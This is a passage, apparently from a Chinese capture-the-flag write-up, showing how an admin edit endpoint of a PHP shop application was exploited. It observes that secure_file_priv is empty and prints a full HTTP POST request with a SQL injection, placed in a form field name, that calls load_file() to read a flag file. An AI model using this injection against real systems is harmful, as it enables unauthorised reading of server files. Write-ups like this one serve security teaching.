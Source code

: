 [![](assets/1708920194-ea746c0fe74b6958d3779ef9161b2707.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111746-ca3e1818-cbb0-1.png)

可以发现 secure\_file\_priv 的值为空，所以这里我们就能够使用 load\_file() 读文件：

```plain
POST /public/index.php/index/admin/do_edit.html HTTP/1.1
Host: 192.168.82.3:36000
Content-Length: 206
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.82.3:36000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.82.3:36000/public/index.php/index/admin/goods_edit/id/1.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=liuqtach04lpk8e6c5l713jcn3
Connection: close

id=1&name=fake_flag&price=100.00&on_sale_time=2023-05-05T02%3A20%3A54&data`%3Dload_file('/fffflllaaaagggg')%23=https%3A%2F%2Fi.postimg.cc%2FFzvNFBG8%2FR-6-HI3-YKR-UF-JG0-G-N.jpg&data=flag%7Basdasdadadada%7D
```

[![](assets/1708920194-2d6ca1f96da7cffdbb1cfed69973c8b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111754-cf4e57dc-cbb0-1.png)

